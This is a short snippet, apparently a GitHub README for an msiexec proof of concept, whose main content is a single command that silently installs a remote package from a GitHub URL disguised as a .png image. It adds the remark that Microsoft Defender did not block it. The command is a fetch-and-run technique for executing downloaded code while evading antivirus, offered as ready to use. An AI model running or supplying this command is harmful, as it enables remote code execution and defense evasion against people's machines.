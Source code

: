 POC and test files for msiexec

Final Command to Execute:
  C:\Windows\System32>msiexec /q /i https://github.com/void010/dummy/raw/main/msiexec/c_sharp_poc.png

Note: Microsoft Defender not blocked
